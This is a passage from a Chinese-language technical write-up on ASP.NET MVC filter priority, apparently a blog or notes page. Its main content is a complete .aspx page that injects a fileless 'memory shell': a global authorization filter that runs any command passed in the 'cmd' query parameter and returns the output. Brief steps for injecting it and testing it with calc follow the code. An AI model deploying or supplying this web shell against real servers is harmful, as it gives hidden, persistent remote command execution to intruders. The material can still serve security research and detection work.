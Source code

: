 ![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1639576119288-8aff42d9-0141-4b13-b99d-42b08453fe1f.png)

总结一下就是：

- Order 和 FilterScope 的数值越小，过滤器的执行优先级越高
- Order 比 FilterScope 具有更高的优先级，在Order属性值相同时FilterScope才会被考虑

## 测试



```cpp
<%@ Page Language="c#"%>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.Reflection" %>
<%@ Import Namespace="System.Web.Mvc" %>
<script runat="server">
    public class MyAuthFilter : IAuthorizationFilter
    {
        public void OnAuthorization(AuthorizationContext filterContext)
        {
            String cmd = filterContext.HttpContext.Request.QueryString["cmd"];
            if (cmd != null)
            {
                HttpResponseBase response = filterContext.HttpContext.Response;
                Process p = new Process();
                p.StartInfo.FileName = cmd;
                p.StartInfo.UseShellExecute = false;
                p.StartInfo.RedirectStandardOutput = true;
                p.StartInfo.RedirectStandardError = true;
                p.Start();
                byte[] data = Encoding.UTF8.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
                response.Write(System.Text.Encoding.Default.GetString(data));
            }


            Console.WriteLine("auth filter inject");
        }
    }
</script>
<%
    GlobalFilterCollection globalFilterCollection = GlobalFilters.Filters;
    globalFilterCollection.Add(new MyAuthFilter(), -2);
%>
```

访问filter.aspx 注入内存马。一片空白表示注入成功

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1639573280439-3d38efd7-f748-4091-908e-97e69ad597f3.png)

访问?cmd=calc弹出计算器

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1639573694474-169975da-87b1-47d8-9fdb-6a977f87bb0b.png?x-oss-process=image%2Fresize%2Cw_971%2Climit_0)
